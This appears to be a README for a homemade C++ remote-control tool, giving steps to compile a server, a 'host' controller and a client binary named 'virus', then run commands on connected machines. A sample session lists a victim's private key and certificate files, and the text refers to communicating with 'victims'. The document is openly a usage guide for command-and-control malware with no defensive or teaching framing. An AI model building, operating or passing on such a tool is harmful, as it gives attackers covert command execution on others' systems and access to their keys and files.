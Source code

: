 Linux Server only.   

Step 1: Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp


Step 2: Copy all the codes to your Linux Server, and then run:

g++ tcsl.cpp -o tcsl 
g++ host.cpp -o host 
g++ server.cpp -o server 

Step 3: Open 3 terminals and run the command seperately:
./tcsl
And then you can run any amounts of Clients or Host with newly open up terminal
the Host is config as the last connected, after the server has been opened, you can lauch the host or client first either way
./virus
./host

Step 4: Enjoy your commands in the host terminal, it would reply the result send by you, for example:

┌──(root㉿kali)-[/home/kali/Desktop]
└─# ./host              
Connected to the server.

┌──(root♪hr0g) - [~]
└─# ls 1
ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~]
└─# 

use 'chatmode' to communicate with victims(under development)
